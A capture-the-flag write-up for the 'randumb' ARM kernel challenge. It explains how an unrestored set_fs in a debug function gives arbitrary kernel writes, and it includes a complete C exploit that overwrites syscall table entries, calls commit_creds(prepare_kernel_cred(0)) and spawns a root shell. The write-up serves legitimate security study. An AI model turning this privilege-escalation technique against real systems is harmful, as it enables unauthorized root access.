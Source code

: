 # randumb (pwn, 250 + 15 pt, solved by 4 teams)
In this challenge, we're given an archive with compressed filesystem, kernel image and script for running an ARM virtual machine.
```sh
drwxrwxr-x aleph/aleph       0 2018-04-09 17:37 ./randumb/
-rwxrwxr-x aleph/aleph     272 2018-04-09 17:37 ./randumb/chall
-rwxrwxr-x aleph/aleph 2310840 2018-04-09 17:35 ./randumb/zImage
-rw-rw-r-- aleph/aleph 1059651 2018-04-09 17:37 ./randumb/rootfs.img.gz
```
After extracting the filesystem we can see `randumb.ko`, which means that we're going to pwn the kernel.

Fortunately, we don't have to reverse the binary as the chall author was nice and provided us with the source code located in `/src`.

Randumb module provides a character device `/dev/randumb` functionally similar to `/dev/urandom` with additional ioctls used for configuration. By setting appropriate config, we can enable debug output which is written to `/tmp/randumb.log`.
The function `debug_msg` looks quite interesting:
```c
static int debug_msg(char *msg, ...) {
        // [...]
        old_fs = get_fs();
        set_fs(KERNEL_DS);

        file = filp_open(DEBUG_FILE, O_WRONLY|O_CREAT|O_APPEND, 0644);

        if (IS_ERR(file))
                return -EINVAL;
        // [....]
}
```
Functions called by `debug_msg` (opening file, writing to file) are normally called from user mode. Thus those functions have to validate pointers passed to them. Otherwise users would be able to leak kernel memory. In order to bypass those checks, `set_fs` is used to increase the `addr_limit` in `thread_info` struct. From this moment, all pointers passed to syscalls either from user or kernel space will be valid.

After doing this, function tries to open `/tmp/randumb.log` file for writing. If opening file fails, function immediately returns. And this is where the vulnerability occurs. Function doesn't restore `old_fs` before returning. If we can trigger this, we would be able to write into arbitrary memory with `read` syscall.

OK, but how to cause an error when trying to open a file? Fortunately, if we try to open a directory file in `O_WRONLY` mode it will return an error, so the only thing we have to do is to create a directory `/tmp/randumb.log`.

To become root, we're going to use standard `commit_creds(prepare_kernel_cred(0))`. To call those functions from userspace we'll overwrite entries in syscall table.

All those things lead us to final exploit:
```c
#include "randumb.h"
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/stat.h>

struct settings {
    int charset;
    int debug;
    int debug_time;
    int debug_uid;
};

void* get_symbol(char *symbol){
    FILE *f = fopen("/proc/kallsyms", "r");
    char c;
    char buf[0x100];
    void *addr;

	while (fscanf(f, "%p %c %s\n", &addr, &c, buf) > 0) {
		if (!strcmp(buf, symbol))
			return addr;
	}
	return NULL;
}

int main() {
    // Try to create /tmp/randumb.log directory
    if (mkdir(DEBUG_FILE, 0) < 0) {
        return -1;
    }
    int fd = open("/dev/randumb", O_RDONLY);
    if (fd < 0) {
	    printf("Failed to open");
        return fd;
    }

    struct settings set = {
        .charset = CHARSET_NONE,
        .debug  = DEBUG_ALL,
        .debug_time = DEBUG_ALL,
        .debug_uid = DEBUG_ALL
    };

    // Enable debug mode
    int x = ioctl(fd, IOCTL_SET_SETTINGS, &set);
    if (x < 0) {
	    printf("Unable to set settings");
        return -1;
    }

    void *sys_table = get_symbol("sys_call_table");
    void *prepare = get_symbol("prepare_kernel_cred");
    void *commit = get_symbol("commit_creds");

    printf("sys_call_table %p\n", sys_table);
    printf("prepare_kernel_cred %p\n", prepare);
    printf("commit_kernel_creds %p\n", commit);

    // Make sure that debug_msg is called
    char c;
    int len = read(fd, &c, 1);

    // Use pipe as a way to read data from descriptor
    int fds[2];
    pipe(fds);

    int out = fds[0];
    int in = fds[1];

    write(in, &prepare, 4);
    // Overwrite syscall 100
    read(out, (int*)(sys_table) + 100, 4);

    write(in, &commit, 4);
    // Overwrite syscall 101
    read(out, (int*)(sys_table) + 101, 4);

    // creds = prepare_kernel_cred(0)
    int creds = syscall(100, 0);
    // commit_creds(creds);
    syscall(101, creds);

    if (getuid() != 0) {
        printf("pwn failed!\n");
        return -1;
    }
    printf("pwned\n");

    const char *args[] = {"/bin/sh", NULL};
    execve(args[0], args, NULL);
    return 0;
}
```

The last thing is to compile and run the exploit. Since there's no GCC on the VM itself, we have to compile it locally and send by copy-pasting into the terminal (I recommend gzip and base64 for that).
```bash
arm-linux-gnueabi-gcc pwn.c -static -o pwn
```
This is not an optimal solution since the binary it generates is quite big, but it avoids writing assembly.

Overall this was a really fun challenge and we've got the first blood. ;)
